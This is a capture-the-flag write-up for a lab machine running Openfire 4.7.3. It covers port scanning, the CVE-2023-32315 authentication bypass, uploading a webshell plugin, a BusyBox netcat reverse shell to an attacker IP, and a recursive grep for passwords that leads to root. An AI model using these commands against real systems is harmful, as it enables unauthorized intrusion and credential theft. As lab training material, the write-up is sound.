 # Fired

So i start my enumeration by scanning for open ports ->

```
nmap -p- 192.168.52.96 --vv
nmap -sCV 192.168.52.96 > nmap.out
```

and i discover the following services:

```
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
9090/tcp open  zeus-admin     syn-ack ttl 63
9091/tcp open  xmltec-xmlmail syn-ack ttl 63
```

On the first service i see an admin console:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Openfire, Version: 4.7.3</p></figcaption></figure>

And the version seems vulnerable to this exploit:

{% embed url="https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT" %}

So i managed to use the exploit that creates credentials to bypass auth:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i looked around for interesting stuff and found this Plugins tab that seemed shady:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after looking it up i found a webshell plugin that i could try to abuse:

{% embed url="https://github.com/miko550/CVE-2023-32315/blob/main/openfire-management-tool-plugin.jar" %}

I upload the plugin and navigate to the webshell just like in the poc and i can now execute commands:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

just before getting my revshell i catch the flag:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So here i got stuck for few minutes and started to look at all my shell techniques and couldn't get a reverse shell, and found a `which busybox` command that i never used and it worked i got my shell with:

```
busybox nc 192.168.49.52 4444 -e /bin/sh
```

and i looked into why this one works and the others don't and came to the conclusion that `nc` doesn't work because its version **doesn't support the `-e` option** (for security reasons). However, `busybox nc` works because **BusyBox includes a version of Netcat that still allows `-e`** to execute a shell.

I popped a low interactive shell so i quickly upgraded it:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

So i had a hard time on privesc, i tried linpeas, suid and all the usual enumeration, then i tried grepping for passwords with&#x20;

```
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

I didn' t see much but i found many things related to databases which i hate enumerating and i remembered that in the openfire web instance there was an admin user so i thought that maybe the password would be in cleartext somewhere so i looked around and went into `/var/lib` which is a directory in Linux is used to store **variable state information** for system services and applications and stored **Databases** (e.g., `/var/lib/mysql` for MySQL, `/var/lib/postgresql` for PostgreSQL) so maybe my openfire db was there and indeed it was. I grepped for passwords and found a password which made me able to login as root:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><span data-gb-custom-inline data-tag="emoji" data-code="1f389">🎉</span></p></figcaption></figure>
